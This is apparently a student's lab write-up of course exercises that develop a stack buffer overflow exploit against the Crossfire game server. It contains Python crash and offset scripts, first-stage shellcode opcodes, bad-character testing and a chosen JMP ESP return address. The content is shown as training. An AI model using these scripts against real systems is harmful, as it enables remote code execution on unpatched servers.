Exercises

# 12.2.1.2
## 12.2.1.2.1. Log in to your dedicated Linux client using the credentials you received.
Revert the machine then log on
```plaintext
kali@kali:~$ rdesktop 192.168.214.44 -u root -p lab
Autoselecting keyboard map 'en-us' from locale
Connection established using plain RDP.
Sound(warning): rdpsnd_process_packet(), Unhandled opcode 0x27
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request
```


## 12.2.1.2.2. On your Kali machine, recreate the proof-of-concept code that crashes the Crossfire server.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 1_poc.py 
#!/usr/bin/python                                                       
import socket                                                           
                                                                         
host = "192.168.214.44"                                                  
                                                                         
crash = "\x41" * 4379                                                    
                                                                         
buffer = "\x11(setup sound " + crash + "\x90\x00#"                          
                                                                            
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                       
print "[*]Sending evil buffer..."                                           
                                                                               
s.connect((host, 13327))                                                       
print s.recv(1024)                                                             
                                                                                 
s.send(buffer)
s.close()

print "[*]Payload Sent !"
```


## 12.2.1.2.3. Attach the debugger to the Crossfire server, run the exploit against your Linux client, and confirm that the EIP register is overwritten by the malicious buffer.

Run Crossfire


Run edb


Find crossfire's PID and attach to process. In this example it is PID 2103.


The program is paused when initially attached.


Unpaused it by pressing F9


Run the proof-of-concept code
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 1_poc.py                                                                       
[*]Sending evil buffer...                                               
#                                                                       
[*]Payload Sent ! 
```

Crossfire crashes


We find that EIP is overwritten by our buffer of A's


# 12.3.1.1
## 12.3.1.1.1. Determine the correct buffer offset required to overwrite the return address on the stack.

Create a unique buffer string with msf-pattern_create
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ msf-pattern_create -l 4379
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9...
4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp
```

Replace the 'crash' variable with the unique buffer generated from ms-pattern_create
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 2_findOffset.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

crash = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2Df3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2Dp3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2Dz3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2Ej3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2Et3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2Fd3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4Fg5Fg6Fg7Fg8Fg9Fh0Fh1Fh2Fh3Fh4Fh5Fh6Fh7Fh8Fh9Fi0Fi1Fi2Fi3Fi4Fi5Fi6Fi7Fi8Fi9Fj0Fj1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Fl0Fl1Fl2Fl3Fl4Fl5Fl6Fl7Fl8Fl9Fm0Fm1Fm2Fm3Fm4Fm5Fm6Fm7Fm8Fm9Fn0Fn1Fn2Fn3Fn4Fn5Fn6Fn7Fn8Fn9Fo0Fo1Fo2Fo3Fo4Fo5Fo6Fo7Fo8Fo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp"

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Run the poc script again
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 2_findOffset.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

Crossfire crashes


EIP is overwritten at 0x46367046



## 12.3.1.1.2. Update your stand-alone script to ensure your offset is correct.

Pass the EIP value at time of the crash (0x46367046) to msf-pattern_offset. We see the exact match is at 4368 bytes
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ msf-pattern_offset -q 46367046
[*] Exact match at offset 4368
```
Update the script to reflect the exact offset. Here is the script:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 3_exactOffset.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

crash = "\x41" * 4368 + "B" * 4 + "C" * 7

buffer = "\x11(setup sound " + crash + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Run the script
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 3_exactOffset.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

Observe that Crossfire crashed


The EIP crashed exactly at where the 4 B's where written 


# 12.5.1.1
## 12.5.1.1.1. Determine the opcodes required to generate a first stage shellcode using msf-nasm_shell.

Since shellcode space is limited, we will create a first stage shellcode. We will align the EAX register so that it points to the buffer right after the "setup sound" string, then jump to that location. This is achieved by using the *ADD* assembly instruction followed by a *JMP* instruction that EAX points to. To get the correct opcodes, use msf-nasm_shell
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ msf-nasm_shell 
nasm > add eax,12
00000000  83C00C            add eax,byte +0xc
nasm > jmp eax
00000000  FFE0              jmp eax
nasm > 
```

Update the poc
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 4_firstStageShellcode.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

padding = "\x41" * 4368
eip = "B" * 4
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Run the poc
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 4_firstStageShellcode.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

Observe Crossfire crashes


Follow the ESP in the dump, and we see it points to our first stage shellcode 83c00cffe0



## 12.5.1.1.2. Identify the bad characters that cannot be included in the payload and return address.

**Bad characters CANNOT be in the buffer, return address, or shellcode.**

We cannot check the same way as we did with SyncBreeze. We only have 7 bytes for our first stage shellcode, so we will test 7 characters at a time. That way, we can still see if the EIP points to BBBB. For the purposes of testing for bad characters, we will replace the first stage shellcode values with 7 hex values at a time to test. 

We will start with the string that has values from \x01 to \x07. Here is the script that we will run many times, each time using different characters in the buffer variable (after the eip).
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 5_badChars.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

# Adjust the padding to incorporate the bad chars
padding = "\x41" * 4368
eip = "B" * 4
buffer = "\x11(setup sound " + padding + eip + "\x01\x02\x03\x04\x05\x06\x07" + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

Start with testing characters: `\x01\x02\x03\x04\x05\x06\x07`
When we right-click on the ESP (bfff:f720) in the register window and 'Follow in Dump', we see that all 7 characters are present at that address. None of these 7 are bad characters.


Continue testing the next 7 characters at a time. When we test string `\x1d\x1e\x1f\x20\x21\x22\x23` we come across a 'Broken pipe fault' error. There is a bad char somewhere in this string.


Test each value in `\x1d\x1e\x1f\x20\x21\x22\x23` individually. For example, let's test just `\x1d`. In the script, we change the buffer variable to:
```python
buffer = "\x11(setup sound " + padding + eip + "\x1d\x1d\x1d\x1d\x1d\x1d\x1d" + "\x90\x00#"
```
When we follow the ESP, we see that it is not a bad character.


However, when we test `\x20` we get the same 'Broken pipe fault' error. `x20` is a bad char.


We continue testing with string `\x21\x22\x23\x24\x25\x26\x27` and see that there are no bad characters.


Continue testing 7 characters at a time until `\xff` has been tested. We find there are only 2 bad characters `\x00\x20`.


# 12.6.1.1
## 12.6.1.1.1. Find a suitable assembly instruction address for the exploit using EDB.

Press Ctrl+O to go to the Opcode Search window, select:
- memory region 0x08048000-0x08144000
- JMP Equivalent ESP -> EIP


Choose the first JMP -> ESP instruction (0x08134596). This will be the value we use for EIP in our poc script.
